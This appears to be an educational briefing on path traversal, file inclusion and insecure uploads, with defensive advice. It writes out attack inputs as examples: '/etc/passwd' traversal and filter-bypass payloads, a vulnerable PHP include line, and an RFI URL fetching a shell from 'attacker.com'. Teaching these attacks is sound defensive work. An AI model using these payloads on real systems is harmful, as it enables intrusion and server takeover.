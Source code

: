 # Path Traversal and File Inclusion Vulnerabilities

Let's talk about some of the most common—and most dangerous—ways websites get hacked. It often boils down to something simple: trusting user input. When a web application handles files, whether it's displaying an image or letting a user upload a document, it's creating an opportunity. If not handled with extreme care, attackers can exploit this to read sensitive data, deface your site, or even take complete control of your server.

This briefing will walk you through three closely related threats: Path Traversal, File Inclusion (LFI/RFI), and Insecure File Uploads.

## Path Traversal: Escaping the Sandbox

At its core, a Path Traversal attack is about tricking a web application into accessing a file it was never supposed to. Think of the application as being told to stay within a specific folder, like `/var/www/images`. The attacker's goal is to give it instructions that make it "walk out" of that folder and into sensitive areas of the server.

### How it Works in Practice

Imagine a website that shows product images with a URL like this:
`https://insecure-website.com/loadImage?filename=218.png`

On the backend, the server takes `218.png` and adds it to its image directory, `/var/www/images/`, to get the full path.

An attacker realizes they can manipulate the filename. They use the sequence `../`, which is a universal command for "go up one directory."

**The Attack:** They send this URL:
`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

**What the Server Sees:** The server obediently follows the instructions. Starting from `/var/www/images/`, it goes up three directories (`/var/www/` -\> `/var/` -\> `/`), landing it in the root directory. It then looks for `etc/passwd`.

The result? The contents of a critical system file containing the server's user list are sent back to the attacker instead of a picture.

### Outsmarting the Defenses

Developers often try to block this, but attackers are persistent. They get around simple filters by:

  * **URL Encoding:** Hiding the `../` from web filters by encoding it as `%2e%2e%2f`.
  * **Nested Sequences:** Using payloads like `....//` to bypass filters that only remove the sequence once.
  * **Absolute Paths:** Simply asking for the file directly, like `filename=/etc/passwd`, if the application doesn't sanitize the path.
  * **Null Byte Trick:** If the application forces a `.png` at the end, an attacker can use a null byte (`%00`) to terminate the filename early: `filename=../../../etc/passwd%00.png`. The system reads the path up to the null byte and ignores the rest.

## File Inclusion (LFI & RFI)

This is where Path Traversal goes from being a data-leak problem to a full-blown server takeover. Some web applications, especially older ones written in PHP, are built to dynamically include files to build a webpage.

### Local File Inclusion (LFI)

This is a Path Traversal attack where the goal isn't just to display a file, but to trick the application into **executing** it.

**Vulnerable Code:**

```php
<?php include($_GET['page']); ?>
```

**The Attack:** `http://example.com/index.php?page=../../../../etc/passwd`

In this case, the server will still show the contents of the password file. But the real danger is when an attacker can first upload a malicious file (like a web shell disguised as an image) and then use an LFI vulnerability to execute it. This combination gives them remote control.

### Remote File Inclusion (RFI)

RFI is even more direct and dangerous. It occurs when a misconfigured server allows the `include` function to fetch files from a remote URL.

**The Attack:** An attacker hosts a malicious script on their own server (`http://attacker.com/shell.php`). They then get the victim's server to run it with a simple URL:
`http://example.com/index.php?page=http://attacker.com/shell.php`

If this works, it's game over. The victim's server downloads and runs the attacker's code, handing over complete control.

> **The bottom line:** LFI uses a file already on the server; RFI pulls one from the internet. RFI is a direct path to compromise, while LFI often requires a file upload to be truly devastating.

## File Uploads: The Open Door

Almost every modern web app lets you upload something—a profile picture, a resume, a report. But this feature, if not built carefully, is like leaving a back door unlocked.

The number one risk is a **Web Shell**. This is a small, malicious script (e.g., a `.php` file) that an attacker uploads disguised as a normal file. If they can upload it and then access it through their browser, they get a command line interface to your server. From there, they can steal data, install malware, or use your server to attack others.

Other risks include:

  * Using path traversal in the filename to overwrite critical system files.
  * Uploading massive files to fill up your disk space (Denial of Service).
  * Uploading `.html` or `.svg` files with malicious JavaScript to attack other users (XSS).

-----

## How to Defend Your Server

The good news is that these attacks are preventable. It all comes back to one golden rule: **Never, ever trust user input.**

### For Path Traversal & LFI

  * **Don't use user input to build file paths.** This is the best defense. Instead of `page=contact.php`, use an ID like `page=contact` and have your code map that ID to a safe, hardcoded file path.
  * **Use a Whitelist.** If you must use user input, check it against a strict list of allowed values. If it's not on the list, reject it.
  * **Validate and Canonicalize.** After you've built a path, use the system's tools to resolve it to its true, absolute path. Then, check if that path still starts with the safe directory you intended. If not, you've detected a traversal attempt.
  * **Turn off remote inclusion.** For PHP, make sure `allow_url_include` is set to `Off` in your `php.ini`. This single setting shuts down RFI attacks.

### For Securing File Uploads

  * **Check the Extension AND Content.** Use a whitelist for safe file extensions (`.jpg`, `.png`, `.pdf`). Don't rely on blacklists. Also, check the file's actual content on the server to make sure a `.jpg` is really an image, not a renamed script.
  * **Rename Every File.** When a file is uploaded, give it a new, random, unpredictable name. This prevents an attacker from knowing the URL to their malicious script.
  * **Store Files Outside the Web Root.** This is the most powerful defense. Save uploaded files to a directory that can't be accessed by a URL. To let users download them, use a script that verifies permissions before serving the file. This way, a web shell can be uploaded but never executed.
  * **Set secure permissions** on the upload folder to prevent any scripts from running.
  * **Limit file sizes** to prevent denial of service.

## References

  * [PortSwigger: Path Traversal](https://portswigger.net/web-security/file-path-traversal)